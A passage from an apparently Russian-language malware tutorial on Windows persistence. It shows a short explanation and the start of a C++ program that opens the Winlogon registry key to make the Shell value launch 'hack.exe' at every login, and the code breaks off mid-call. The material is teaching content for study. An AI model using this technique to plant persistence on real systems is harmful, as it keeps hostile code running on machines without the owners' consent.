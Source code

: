 ![pers](./images/58/2022-06-12_14-59.png){width="80%"}    

Как видно, в обоих случаях вредоносное ПО будет выполняться во время аутентификации Windows.    

Но есть интересный нюанс. Например, если обновить ключ реестра следующим образом:


```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
```